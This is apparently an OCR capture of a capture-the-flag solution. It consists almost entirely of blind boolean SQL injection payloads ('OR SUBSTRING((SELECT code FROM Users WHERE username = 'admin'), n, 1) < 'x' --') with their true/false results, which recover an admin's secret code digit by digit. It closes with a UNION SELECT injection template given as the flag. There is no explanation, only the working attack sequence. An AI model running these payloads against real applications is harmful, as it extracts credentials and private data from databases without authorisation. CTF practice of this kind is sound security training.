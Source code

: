 ' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 1, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 1, 1) < '7' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 1, 1) < '9' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 1, 1) > '8' -- T
Now leak 9
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 2, 1) < '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 2, 1) > '3' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 2, 1) > '4' -- F
Now leak 94
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 3, 1) > '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 3, 1) > '3' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 3, 1) > '4' -- T
Now leak 945
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 4, 1) > '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 4, 1) > '7' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 4, 1) > '8' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 4, 1) < '9' -- F
9459
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 5, 1) > '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 5, 1) > '7' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 5, 1) > '8' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 5, 1) < '9' -- F
94599
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 6, 1) > '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 6, 1) > '3' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 6, 1) > '1' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 6, 1) > '2' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 6, 1) < '3' -- F
945993
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 7, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 7, 1) > '7' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 7, 1) > '8' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 7, 1) < '9' -- F
9459939
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 8, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 8, 1) > '7' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 8, 1) > '6' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 8, 1) < '6' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 8, 1) > '5' -- F
94599395
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 9, 1) < '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 9, 1) < '3' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 9, 1) > '3' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 9, 1) < '4' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 9, 1) > '4' -- F
945993954
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 10, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 10, 1) < '7' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 10, 1) > '8' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 10, 1) < '8' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 10, 1) > '7' -- F
9459939547
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 11, 1) < '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 11, 1) < '3' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 11, 1) < '1' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 11, 1) > '1' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 11, 1) < '2' -- T
94599395471
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 12, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 12, 1) < '7' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 12, 1) > '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 12, 1) < '6' -- T
945993954715
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 13, 1) < '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 13, 1) < '7' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 13, 1) > '5' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 13, 1) < '6' -- T
9459939547155
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 14, 1) < '5' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 14, 1) < '3' -- T
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 14, 1) < '1' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 14, 1) > '1' -- F
' OR SUBSTRING((SELECT code FROM Users WHERE username = 'admin'), 14, 1) < '2' -- T
94599395471551
AIS3{' UNION SELECT 1, 1, 1, 1 WHERE ({condition})--}